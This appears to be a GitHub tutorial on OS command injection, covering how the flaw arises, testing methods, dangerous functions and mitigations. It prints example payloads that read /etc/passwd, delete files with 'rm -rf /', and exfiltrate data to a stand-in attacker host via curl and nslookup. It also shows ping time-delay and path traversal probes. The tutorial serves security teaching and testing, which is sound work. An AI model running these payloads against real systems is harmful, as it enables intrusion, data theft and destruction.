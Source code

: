 # What is OS Command Injection?
**OS command injection** is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

**OS Command Injection** happens when an application passes unsafe user-supplied data (e.g., input from a form, URL parameters, or cookies) to a system shell without proper validation or sanitization.

## **How It Works:**

**User Input:** The application takes input from a user (e.g., via a web form or API request).

**Unsafe Execution:** 
 - The input is directly used in a system command without proper validation or escaping.
 - Command Execution: An attacker crafts malicious input to inject additional OS commands, which are executed by the server.

**1. Manual Testing**
 - Identify Input Points: Look for places in the application where user input is accepted (e.g., forms, URL parameters, cookies, headers).
 - Test with Malicious Input: Inject special characters and commands to see if the application executes them.

**Common injection payloads:**
```
;  (command separator in Unix-like systems)

&  (background execution in Unix-like systems)

|  (pipe operator)

&&  (conditional execution)

$(...)  or  `...`  (command substitution)

||  (OR operator)

> or < (redirection operators)
```
**Example payloads**:

 - ; ls  (list files)

 - ; whoami  (check current user)

 - ; cat /etc/passwd  (read sensitive file)

 - ; rm -rf /  (delete files)

Observe Behavior: Check if the application executes the injected command or returns unexpected output.

**2. Automated Tools**
 - Use security scanning tools to automate the detection process. Some popular tools include:
  - **Burp Suite**: A web vulnerability scanner that can test for command injection.
  - **OWASP ZAP**: An open-source tool for finding vulnerabilities, including command injection.
  - **Nikto**: A web server scanner that can detect misconfigurations and vulnerabilities.
  - **Nmap**: Can be used to test for command injection in network services.
  - **Acunetix**: A commercial tool for detecting web vulnerabilities, including OS command injection.

**3. Code Review**
 - Look for Dangerous Functions: Identify functions that execute system commands and check if user input is passed to them without proper sanitization.

Examples of dangerous functions:

 - In PHP: system(), exec(), passthru(), shell_exec(), `...`

 - In Python: os.system(), subprocess.run(), subprocess.Popen()

 - In Java: Runtime.exec()

 - In Node.js: child_process.exec(), child_process.spawn()

**Check for Input Sanitization**: Ensure that user input is properly validated, sanitized, or escaped before being used in commands.

**Use Safe Alternatives**: Look for safer alternatives, such as parameterized APIs or libraries that avoid direct command execution.

**4. Fuzz Testing**
 - Use fuzzing tools to send random or malformed input to the application and observe its behavior.
 - Tools like wfuzz or ffuf can help automate this process.

**5. Monitor Server Logs**
 - Check server logs for unusual commands or errors that might indicate an attempted command injection.
 - Look for patterns like repeated use of special characters or unexpected commands.

**6. Test for Blind Command Injection**
 - Sometimes, the application does not return the output of the command directly. In such cases, use techniques like:
  - Time Delays: Inject commands like sleep 5 and observe if the application responds after a delay.
  - Out-of-Band (OOB) Techniques: Use tools like curl or wget to send requests to an external server controlled by you.
 - Example: ; curl http://your-server.com/$(whoami)
 - DNS Requests: Inject commands that trigger DNS lookups to your server.
 - Example: ; nslookup $(whoami).your-server.com

**7. Check for Context-Specific Vulnerabilities**
 - Some applications use user input in specific contexts (e.g., file paths, URLs). Test for vulnerabilities in these contexts:
 - Example: If the application uses user input in a file path, try injecting ../../etc/passwd to access sensitive files.

**8. Use Security Headers and WAFs**
 - Deploy a Web Application Firewall (WAF) to detect and block command injection attempts.
 - Use security headers like Content-Security-Policy to restrict the execution of unsafe scripts.
 - By combining these techniques, you can effectively detect and mitigate OS Command Injection vulnerabilities in your applications. Always follow secure coding practices and regularly test your applications for vulnerabilities.
### Detecting **blind OS command injection** using time delays
 - You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:
```
& ping -c 10 127.0.0.1 &
```
This command causes the application to ping its loopback network adapter for 10 seconds.

